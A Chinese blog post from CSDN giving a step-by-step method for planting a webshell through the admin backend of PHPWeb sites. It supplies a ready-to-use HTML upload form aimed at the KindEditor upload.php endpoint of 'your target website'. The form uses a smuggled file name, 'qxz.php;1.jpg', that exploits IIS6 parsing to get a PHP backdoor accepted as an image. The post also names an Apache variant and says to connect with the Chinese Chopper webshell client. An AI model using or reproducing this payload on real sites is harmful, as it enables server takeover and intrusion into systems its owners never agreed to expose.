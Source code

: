 # phpweb后台拿shell简单方法 - sxf_123456的博客 - CSDN博客
2017年04月24日 20:59:35[sxf_0123](https://me.csdn.net/sxf_123456)阅读数：3089
关于phpweb后台拿shell简单方法。
首先登录后台admin.php
![phpweb](http://www.chncto.com/upload/image/201403/2014030800203300.jpg)
登录后台管理系统后，然后把下面的文件保存为xxx.html，修改action，把 www.xxx.com 改成你的目标网站地址。 
代码文件如下：
<form name=”uploadForm” method=”post” enctype=”multipart/form-data” action=”http://www.xxx.com/kedit/upload_cgi/upload.php”> 
<input type=”text” name=”fileName” value=”qxz.php;1.jpg” /> 
<input type=”hidden” name=”attachPath” value=”news/pics/” /> 
<input type=”file” name=”fileData” size=”14″ /></td> 
<input type=”submit” name=”button” value=”确定” /> 
</form>
然后选择你的马儿再上传
![0131203233947](http://www.chncto.com/upload/image/201403/2014030800203501.jpg)
上传后如果为iis6，就点击查看源码就可以找到马儿的路径了。
![203233848](http://www.chncto.com/upload/image/201403/2014030800203702.jpg)
菜刀链接看下
![t234952](http://www.chncto.com/upload/image/201403/2014030800203903.jpg)
PS：qxz.php;1.jpg这样的文件是允许上传的，只要服务器是IIS6就拿到webshell，低版本的apache可以试着重命名为qxz.php.jpg
代码文件下载地址：http://pan.baidu.com/s/1eRzHs
